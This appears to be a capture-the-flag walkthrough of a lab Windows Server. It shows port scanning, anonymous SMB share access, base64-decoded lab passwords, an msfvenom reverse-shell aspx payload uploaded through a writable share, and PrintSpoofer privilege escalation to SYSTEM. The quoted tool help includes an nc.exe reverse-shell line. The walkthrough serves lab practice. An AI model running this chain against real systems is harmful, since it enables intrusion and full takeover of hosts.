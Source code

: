 To make it easier first of all I performed a mass scan which dicovered below listed ports:

--> sudo masscan -e tun0 -p1-65535, --U:1-65535 10.10.28.239 --rate=100
      Discovered open port 80/tcp on 10.10.28.239
      Discovered open port 135/tcp on 10.10.28.239
      Discovered open port 139/tcp on 10.10.28.239
      Discovered open port 445/tcp on 10.10.28.239
      Discovered open port 3389/tcp on 10.10.28.239
      Discovered open port 49663/tcp on 10.10.28.239
      Discovered open port 49667/tcp on 10.10.28.239
      Discovered open port 49669/tcp on 10.10.28.239

Interesting list of open ports. Let's do one better with nmap scanning the discovered ports to establish their services.
------------------------------------------------------------------------------
--> nmap -sC -sV -p80,445,135,139,49667,49669,49663,3389 -oA nmap/Relevent 10.10.28.239
    output:

    80/tcp    open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        | http-methods: 
        |_  Potentially risky methods: TRACE
        |_http-server-header: Microsoft-IIS/10.0
        |_http-title: IIS Windows Server
    135/tcp   open  msrpc          Microsoft Windows RPC
    139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds    3389/tcp  open  ms-wbt-server?
        |   Target_Name: RELEVANT
        |   NetBIOS_Domain_Name: RELEVANT
        |   NetBIOS_Computer_Name: RELEVANT
        |   DNS_Domain_Name: Relevant
        |   DNS_Computer_Name: Relevant
        |   Product_Version: 10.0.14393
        |_  System_Time: 2020-09-20T06:39:55+00:00
        | ssl-cert: Subject: commonName=Relevant
        | Not valid before: 2020-07-24T23:16:08
        |_Not valid after:  2021-01-23T23:16:08
        |_ssl-date: 2020-09-20T06:40:33+00:00; -7s from scanner time.
    49663/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        | http-methods: 
        |_  Potentially risky methods: TRACE
        |_http-server-header: Microsoft-IIS/10.0
        |_http-title: IIS Windows Server
    49667/tcp open  msrpc          Microsoft Windows RPC
    49669/tcp open  msrpc          Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
          Host script results:
              |_clock-skew: mean: 1h23m53s, deviation: 3h07m52s, median: -7s
              | smb-os-discovery: 
              |   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
              |   Computer name: Relevant
              |   NetBIOS computer name: RELEVANT\x00
              |   Workgroup: WORKGROUP\x00
              |_  System time: 2020-09-19T23:39:51-07:00
              | smb-security-mode: 
              |   account_used: guest
              |   authentication_level: user
              |   challenge_response: supported
              |_  message_signing: disabled (dangerous, but default)
              | smb2-security-mode: 
              |   2.02: 
              |_    Message signing enabled but not required
              | smb2-time: 
              |   date: 2020-09-20T06:39:56
              |_  start_date: 2020-09-20T06:24:29

Namp scan result showed that its a window box 

Then I bruteforce for directory using dirsearch.py. But found nothing with that search.

--> sudo python3 /opt/dirsearch/-dirsearch.py -u http://10.10.28.239/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php,html,apsx -x 404,403

Let's, enumerate these ports and its running services, and which one is vulneable.
------------------------------------------------------------------------------
smbclient -L 10.10.83.165
Enter WORKGROUP\su's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk

-------------------------------------------------------------------
smbclient \\\\10.10.83.165\\nt4wrksv

Enter WORKGROUP\su's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 26 03:16:04 2020
  ..                                  D        0  Sun Jul 26 03:16:04 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020

		7735807 blocks of size 4096. 4945728 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

------------------------------------------------------------------------------------

echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123
- - - - - - - - - - -
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
Got nothing from these credentials.
--------------------------------------------------------------------------------------

This password file is able to access where we can upload our exploit to get a reverse shell
http://10.10.158.115:49663/nt4wrksv/password.txt

--> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.45.62 LPORT=1234 -f aspx -o payload.aspx

smb: \> put payload.aspx

And finally we got foothold on the machine.

c:\Users\Bob\Desktop>whoami /priv

smb: \> put PrintSpoofer.exe

09/22/2020  05:40 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
09/22/2020  05:40 AM             3,423 payload.aspx
09/22/2020  05:38 AM            27,136 PrintSpoofer.exe


c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -h
PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"


c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\Users\Administrator\Desktop
cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,272,693,248 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
